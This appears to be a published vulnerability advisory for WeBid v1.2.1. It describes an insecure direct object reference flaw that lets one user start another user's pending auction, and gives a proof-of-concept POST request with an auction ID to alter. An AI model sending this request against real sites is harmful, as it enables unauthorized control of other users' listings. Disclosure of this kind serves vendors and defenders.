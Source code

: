 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to start a pending auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions_p.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&startnow%5B%5D=10(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```